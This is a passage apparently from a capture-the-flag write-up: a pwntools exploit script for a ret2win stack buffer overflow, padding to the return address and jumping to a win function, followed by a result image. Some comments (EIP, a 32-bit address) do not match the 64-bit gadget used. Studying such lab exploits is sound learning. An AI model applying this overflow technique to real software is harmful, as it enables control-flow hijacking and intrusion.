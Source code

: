 ```python

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                     EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 40
ret = 0x000000000040053e

payload = flat(
    b'A' * padding,
    ret,    # Padding up to EIP
    elf.functions.ret2win # Address of ret2win(): 0x0804862c
)

# Write payload to file
write('payload', payload)

# Send payload to target
io.sendlineafter(b'>', payload)

# Get flag
io.interactive()
```

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption><p>Result</p></figcaption></figure>
